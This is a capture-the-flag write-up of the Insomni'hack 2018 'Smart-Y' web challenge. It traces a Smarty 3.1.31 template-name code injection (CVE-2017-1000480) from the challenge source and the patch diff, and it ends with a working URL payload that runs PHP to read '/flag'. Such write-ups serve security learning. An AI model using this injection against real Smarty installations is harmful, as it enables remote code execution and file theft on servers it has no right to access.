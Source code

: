 # Web - Smart-Y

```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.

http://smart-y.teaser.insomnihack.ch
```

Once you find the vuln in this one, the challenge is quite easy. When you navigate on the website, you are quickly directed to `/console.php`, which source is:

```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

There is not much to go with, so let's try to go in `./smarty`:

![toot](https://raw.githubusercontent.com/YoloSw4g/writeups/master/2018/Insomni%27hack-Teaser-2018/web-Smart-y/resources/dirlisting.png)

We can go and see the [changelog](https://raw.githubusercontent.com/YoloSw4g/writeups/master/2018/Insomni%27hack-Teaser-2018/web-Smart-y/resources/change_log.txt) to grab the version number:

```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables

  19.11.2016
  - bugfix inheritance root child templates containing nested {block}{/block} could call sub-bock content from parent
    template https://github.com/smarty-php/smarty/issues/317
  - change version checking

 11.11.2016
  - bugfix when Smarty is using a cached template object on Smarty::fetch() or Smarty::isCached() the inheritance data
    must be removed https://github.com/smarty-php/smarty/issues/312
  - smaller speed optimization
```

Next thing you want to do is search for public vulnerabilities, and there is one that can be of interest:
```
CVE-2017-1000480: Smarty 3 before 3.1.32 is vulnerable to a PHP code injection when calling fetch() or display() functions on custom resources that does not sanitize template name
```

Sadly, there is no exploit, so we have to search for it on our own. Grepping the [current changelog](https://github.com/smarty-php/smarty/blob/master/change_log.txt#L71) for `display()` shows us that the patch was released on 2017-07-21, which leads us to [this commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61).

There we see what really went down:
```php
$output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") . "\n  from \"" . $_template->source->filepath . "\" */\n\n";
```

```php
$output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") . "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

Someone was dynamically generating multilines comments inside a PHP code, and was not properly handlin `*/` in the template name. That allows for code injection in Smarty:
![toot](https://raw.githubusercontent.com/YoloSw4g/writeups/master/2018/Insomni%27hack-Teaser-2018/web-Smart-y/resources/execphp.png)

So let's [get the flag](http://smart-y.teaser.insomnihack.ch/console.php?id=*/echo%20file_get_contents(%27/flag%27);/*):
```
INS{why_being_so_smart-y} The news system is in maintenance. Please wait a year. <<<DEBUG>>>
```

